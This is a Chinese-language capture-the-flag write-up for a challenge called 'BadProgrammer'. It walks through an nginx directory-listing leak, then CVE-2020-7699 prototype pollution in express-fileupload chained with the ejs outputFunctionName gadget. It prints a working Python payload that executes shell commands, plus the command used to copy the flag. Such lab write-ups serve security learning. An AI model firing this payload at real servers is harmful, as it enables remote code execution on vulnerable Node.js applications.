

# BadProgrammer
看名称先猜和泄露有关
进去后什么交互都没有f12,看见可疑的js


点进去,看见github字样,猜一下是.git的泄露(好吧不是)
官方题解:
step1 nginx配置错误导致源码泄露

观察源码发现静态文件存放在/static/目录下 ：

    ```
    <head>
        <title>Semantic UI</title>
        <link rel="stylesheet" type="text/css" href="/static/css/semantic.min.css">
        <script
        src="/static/js/jquery-3.1.1.min.js"
        integrity="sha256-hVVnYaiADRTO2PzUGmuLJr8BLUSjGIZsDYGmIJLv2b8="
        crossorigin="anonymous"></script>
        <script src="/static/js/semantic.min.js"></script>
    </head>
    ```

观察请求response header发现是nginx服务器加express框架：

```
Connection: keep-alive
Content-Length: 20175
Content-Type: text/html; charset=utf-8
Date: Sat, 05 Sep 2020 08:15:26 GMT
ETag: W/"4ecf-BRB1SRFii1kA+OilogiQ1K0hP8U"
Server: nginx
X-Powered-By: Express
```

利用nginx配置错误，可以列目录：


此时可以得到app.js源码：

```
const express = require('express');
const fileUpload = require('express-fileupload');
const app = express();

app.use(fileUpload({ parseNested: true }));

app.post('/4_pATh_y0u_CaNN07_Gu3ss', (req, res) => {
    res.render('flag.ejs');
});

app.get('/', (req, res) => {
    res.render('index.ejs');
})

app.listen(3000);
app.on('listening', function() {
    console.log('Express server started on port %s at %s', server.address().port, server.address().address);
});
```

step2 express-fileupload原型链污染漏洞

查看package.json文件，发现引用express-fileupload版本为1.1.7-alpha.4，此版本存在CVE-2020-7699，原型链污染漏洞。

```
{
  "name": "app",
  "version": "1.0.0",
  "description": "",
  "main": "app.js",
  "scripts": {
    "app": "node /app/app.js",
    "test": "echo \"Error: no test specified\" && exit 1"
  },
  "author": "",
  "license": "ISC",
  "dependencies": {
    "ejs": "^3.1.5",
    "express": "^4.17.1",
    "express-fileupload": "1.1.7-alpha.4"
  }
}
```

step3 配合ejs模板引擎进行RCE

通过污染ejs中outputFunctionName变量，实现RCE：

```
resp1 = requests.post("http://{}:{}/{}".format(HOST, PORT, PATH),
        files={'__proto__.outputFunctionName': 
        (
            None, "x;console.log(1);process.mainModule.require('child_process').exec('{cmd}');x".format(cmd=cmd)
        )})
```

step4 拷贝flag

flag在/flag.txt，需要通过命令执行将其拷贝到可访问到的位置。

观察package.json中，可知服务路径为/app

所以我们只需通过RCE执行

cp /flag.txt /app/static/js/flag.txt

再访问http://IP:PORT/static/js/flag.txt即可得到flag。